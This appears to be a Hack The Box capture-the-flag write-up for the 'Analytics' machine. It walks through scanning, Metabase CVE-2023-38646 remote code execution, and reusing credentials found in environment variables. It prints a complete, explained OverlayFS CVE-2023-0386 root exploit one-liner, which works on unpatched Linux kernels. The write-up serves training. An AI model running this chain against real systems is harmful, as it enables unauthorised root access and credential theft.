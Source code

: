 # Analytics Writeup - by Thammanant Thamtaranon  
- Analytics is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:  
  `nmap -A -T4 -p- 10.10.11.233`  
![Nmap_Scan](Nmap_Scan.png)  
- The scan showed two open ports:  
  - 22 (SSH)  
  - 80 (HTTP)  
- I added `analytical.htb` to `/etc/hosts` for proper hostname resolution.

## Scanning & Enumeration  
- I ran a directory brute-force using `dirsearch`:  
  `dirsearch -u http://analytical.htb`  
![Dirsearch_Scan](Dirsearch_Scan.png)  
- No interesting directories were found.

- I then enumerated virtual hosts using `ffuf`:  
  `ffuf -u http://analytical.htb -H "Host: FUZZ.analytical.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac`  
![VHost](VHost.png)  
- I discovered `data.analytical.htb`, so I added that to `/etc/hosts` as well.

- Visiting `http://data.analytical.htb/` redirected to the login page:  
  `http://data.analytical.htb/auth/login?redirect=%2F`

## Exploitation  
- I attempted to log in using `admin@analytical.com:admin`.  
  - The error message confirmed that the email exists, but the password is incorrect.  
![Login](Login.png)

- After a few login attempts, I was rate-limited, so I looked for another way in.

- Since the login panel is Metabase, I searched for known Metabase vulnerabilities.

- I found `CVE-2023-38646`, which abuses a setup token from `/api/session/properties`.  
  - This endpoint also discloses the Metabase version in the response.

- I accessed that endpoint and confirmed the Metabase version is `0.46.6`, which is vulnerable.  
![Version](Version.png)

- This vulnerability allows RCE by using an SQLi in the H2 driver during DB validation.

- I extracted the setup token.  
![Token](Token.png)

- I ran the exploit and got a shell as `metabase`.  
![Shell](Shell.png)

- The environment looked like a container, so I ran `env` and found credentials.  
![Credential](Credential.png)

- I then used SSH with those credentials to get into the host as user `metalytics`.  
![SSH](SSH.png)

- I obtained the user flag.

## Privilege Escalation  
- Running `sudo -l` showed that `metalytics` had no sudo privileges.

- I looked around for privesc paths and ran `uname -a`.  
![Kernal](Kernal.png)

- The kernel version was `6.2`, so I looked for related CVEs.

- I tested a few kernel exploits:
  - `CVE-2024-1086` caused a crash, so I skipped it.
  - `CVE-2023-3269` was too complex for an Easy box.
  - `CVE-2023-0386` worked.

- **CVE-2023-0386** is a privilege escalation vulnerability in OverlayFS.  
  - It **abuses improper capability retention** when a file with elevated capabilities is copy-up’d from lowerdir to upperdir.
  - This allows a non-root user in a new user namespace to execute a binary with `cap_setuid`, effectively gaining root.

- I used the following exploit chain:
  ```bash
  unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
  ```
![ID](ID.png)

### Explanation:
1. `unshare -rm sh -c "..."`
   - `unshare` creates new namespaces for isolation.  
   - `-r` creates a new **user namespace** with root privileges inside it (unprivileged outside).  
   - `-m` creates a new **mount namespace** so mounts affect only this environment.  
   - `sh -c "..."` executes commands in this sandboxed environment.

2. `mkdir l u w m`
   - Creates four directories:  
     - `l` = lowerdir: holds original files (copied python3).  
     - `u` = upperdir: will hold copied-up files with retained capabilities.  
     - `w` = workdir: required by OverlayFS to manage changes.  
     - `m` = mount point: where the overlay filesystem is mounted.

3. `cp /u*/b*/p*3 l/`
   - Copies the system’s Python3 binary to the `l/` directory (wildcards match `/usr/bin/python3`).

4. `setcap cap_setuid+eip l/python3`
   - Assigns the `cap_setuid` capability to the copied python3 binary.  
   - `+eip` means Effective, Inheritable, and Permitted capabilities are set.  
   - This allows the binary to escalate privileges by setting its UID.

5. `mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m`
   - Mounts an **OverlayFS** filesystem at directory `m`.  
   - `lowerdir=l` uses the original Python binary.  
   - `upperdir=u` will hold any modified/copied files.  
   - `workdir=w` is required by OverlayFS to track changes.  
   - This lets us manipulate files without changing the original lowerdir.
   - `l/` holds the read-only Python binary with the capability, `u/` is where changes would be saved (but aren’t, since we only run it), and `m/` merges them so we can use the file without losing the capability.

6. `touch m/*`
   - Makes the kernel treat u/python3 as a new distinct file. Becuase if we run `l/python` directly the Kernel verifies capabilities against the original filesystem which has stricter checks.
   - Forces OverlayFS to:
     - Initialize metadata in `u/`
     - Maintain reference to original `l/python3` inode
   - Preserves capabilities because:
     - No real copy occurs
     - Original file attributes remain intact

8. `u/python3 -c 'import os;os.setuid(0);os.system("id")'`
   - Runs Python binary that retains `CAP_SETUID`
   - Can escalate to root because:
     - Same physical file as `l/python3` (same inode)
     - OverlayFS metadata tricks kernel into preserving caps
   - Verifies root access via `id` command

- After confirming root access, I replaced the command with `/bin/bash` to get a full root shell.  
![Root](Root.png)

- I obtained the root flag.
